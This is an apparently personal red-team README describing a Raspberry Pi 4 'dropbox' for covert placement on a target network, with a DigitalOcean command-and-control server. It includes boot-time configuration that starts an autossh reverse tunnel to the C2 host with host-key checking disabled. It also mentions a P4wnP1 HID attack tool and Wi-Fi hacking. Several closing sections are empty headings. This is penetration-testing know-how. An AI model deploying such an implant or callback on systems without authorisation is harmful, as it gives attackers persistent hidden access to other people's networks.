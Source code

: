 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-vpn-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1


### Reverse vpn gateway


# Usages
